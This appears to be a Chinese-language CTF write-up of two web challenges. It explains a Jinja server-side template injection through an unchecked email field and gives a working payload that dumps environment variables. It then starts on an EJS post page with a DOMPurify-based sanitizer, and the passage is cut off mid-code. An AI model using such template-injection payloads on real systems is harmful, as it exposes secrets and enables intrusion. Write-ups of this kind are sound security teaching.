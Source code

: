 ## Dumb Forum

這題有個 SSTI：

``` py
@app.route('/profile', methods=['GET', 'POST'])
@login_required
def profile():
    with open('app/templates/profile.html') as p:
        profile_html = p.read()
    
    profile_html = profile_html % (current_user.username, current_user.email, current_user.about_me)

    if(current_user.about_me == None):
        current_user.about_me = ""
    return render_template_string(profile_html)
```

username 跟 aboutme 都有被檢查，不能用 `}{`，而 email 只有檢查是不是合法的 email 地址，是的話就能用。

因此 `abc｛{7*7}}@abc.com` 在界面上呈現的會是 `abc49@abc.com`，因為在這套 library 中 email 地址如果有 `()` 的話會被視為不合法，所以沒辦法用 `()`。

flag 在環境變數裡面，所以只要這樣就 win 了：

``` py
{{cycler.__init__.__globals__.os.environ}}@x.com
```

## LESN

這題可以建立一個 post，內容可以控制但會被 sanitized，最後會 render 成這樣：

``` ejs
<script src="/static/script.js" async></script>

<a style="position: absolute; left: 30%; top:5px" href="/">Home</a>
<a style="position: absolute; right: 30%; top:5px" href="/edit/<%= imgid %>">Edit</a>

<div style="margin-top: 3em;">
    <img src="<%= imgurl %>" onerror="setTimeout(redirect_error_image,1500)"
        style="max-height: 300px; max-width: 300px; display:block; margin: auto; border: 2px solid #555;">

    <div style="margin-top: 30px; text-align: center;"><%- description %></div>
</div>


<%- include('footer') %>
```

過濾的程式碼長這樣：

``` js
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

function my_sanitize(html) {
    const document = new JSDOM('').window.document
    document.body.outerHTML = html

    let node;
    const iter = document.createNodeIterator(document.body)

```
